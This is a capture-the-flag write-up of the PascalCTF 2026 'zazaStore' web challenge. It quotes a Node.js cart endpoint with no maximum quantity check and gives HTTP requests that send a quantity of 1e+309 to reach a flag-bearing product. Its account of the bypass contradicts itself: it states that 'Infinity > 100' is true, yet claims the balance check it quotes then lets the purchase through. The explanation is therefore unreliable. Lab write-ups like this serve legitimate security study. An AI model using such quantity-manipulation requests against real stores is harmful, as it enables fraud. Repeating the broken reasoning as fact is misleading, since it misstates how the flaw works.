







# ZazaStore Challenge From PascalCTF 2026

## Challenge Overview

**Challenge Name:** zazaStore 
**Vulnerability Type:** Integer Overflow / Quantity Manipulation  
**Difficulty:** Medium  
**Flag Location:** Environment variable stored in "RealZa" product

---

## Vulnerability Analysis

### The Vulnerability

The application implements a shopping cart system with a critical flaw in quantity validation. While the endpoint checks if quantity is less than 1, it fails to validate **maximum quantity values**, creating an integer overflow vulnerability.

### Vulnerable Code

```javascript
app.post('/add-cart', (req, res) => {
    const product = req.body;
    if (!req.session.cart) {
        req.session.cart = {};
    }
    const cart = req.session.cart;
    if ("product" in product) {
        const prod = product.product;
        const quantity = product.quantity || 1;
        if (quantity < 1) {
            return res.json({ success: false });
        }
        // No maximum quantity validation - VULNERABILITY HERE
        if (prod in cart) {
            cart[prod] += quantity;
        } else {
            cart[prod] = quantity;
        }
        req.session.cart = cart;
        return res.json({ success: true });
    }
    res.json({ success: false });
});
```

### The Problem

The application only validates that `quantity >= 1`, but places no upper bound on the quantity value. This allows an attacker to:

1. **Add extremely large quantities** of the RealZa product to their cart
2. **Trigger integer overflow** or manipulation of cart calculations
3. **Bypass balance checks** through quantity overflow
4. **Gain access to the RealZa product** (which contains the flag)

### Product Prices

```javascript
const prices = { 
    "FakeZa": 1, 
    "ElectricZa": 65, 
    "CartoonZa": 35, 
    "RealZa": 1000  // Costs 1000 with only 100 initial balance
};
```

The legitimate problem: RealZa costs 1000 credits but the user only starts with 100 balance. This product is normally unreachable.

---

## Exploitation Steps

### Step 1: Login
```bash
POST /login
Content-Type: application/json

{
    "username": "anything",
    "password": "password"
}
```



Response establishes a session with:
- `req.session.balance = 100`
- `req.session.inventory = {}`
- `req.session.cart = {}`

#### Home page :



### Step 2: Add RealZa with Overflowed Quantity

### Step 2.1: Try it in frontend:
If you notice is alert that quantity var cant be negative when i entre over or equal 1e+309.



### Step 2.2: Send Request Using Burpsuite
Send a request with an extremely large quantity value that rounds to `1e+309`:

```bash
POST /add-cart
Content-Type: application/json

{
    "product": "RealZa",
    "quantity": 1e+309
}
```


### Is successfully added to cart :



The cart now contains an entry where `cart["RealZa"]` = 1e+309

### Step 3: Trigger the Vulnerability During Checkout

```bash
POST /checkout
Content-Type: application/json
```



When the checkout endpoint processes the cart:

```javascript
let total = 0;
for (const product in cart) {
    total += prices[product] * cart[product];
}
// total = 1000 * 1e+309 = Infinity
```

**The Overflow:** The calculation `1000 * 1e+309` exceeds JavaScript's maximum representable number and results in `Infinity`.

In JavaScript:
```javascript
1000 * 1e+309 // Evaluates to Infinity
Infinity > 100 // true, but creates unpredictable behavior
```

This breaks the balance check logic completely.

### Step 4: Balance Check Bypass

```javascript
if (total > req.session.balance) {
    res.json({ "success": true, "balance": "Insufficient Balance" });
} else {
    // VULNERABILITY: Code reaches here due to overflow
    req.session.balance -= total;
    for (const property in cart) {
        inventory[property] += cart[property];
    }
    // RealZa is now in inventory!
}
```

### Step 5: View Inventory and Retrieve Flag

```bash
GET /inventory
```



The RealZa product content is rendered:

```javascript
const content = {
    "RealZa": process.env.FLAG,  // The flag is here!
    // ...
};
```

## The End . 